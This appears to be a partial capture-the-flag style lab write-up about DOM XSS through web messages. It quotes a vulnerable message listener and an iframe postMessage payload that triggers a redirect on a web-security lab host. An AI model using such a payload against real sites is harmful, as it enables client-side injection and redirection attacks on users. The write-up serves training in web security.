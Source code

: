 ![img](images/DOM%20XSS%20using%20web%20messages%20and%20a%20JavaScript%20URL/1.png)

```
<script>
    window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>
```

If the payload contains “http:” or “https:”, it will redirect to that page.


Our payload in the exploit server:

```
<iframe src="https://0a0300fb03ec541d83b0e1af005a0096.web-security-academy.net/" onload="this.contentWindow.postMessage('https://as.com','*')" style="width:100%;height:100%">
```

When we click “View”, it redirects to as.com:



![Pobre Luis Enrique](images/DOM%20XSS%20using%20web%20messages%20and%20a%20JavaScript%20URL/2.png)
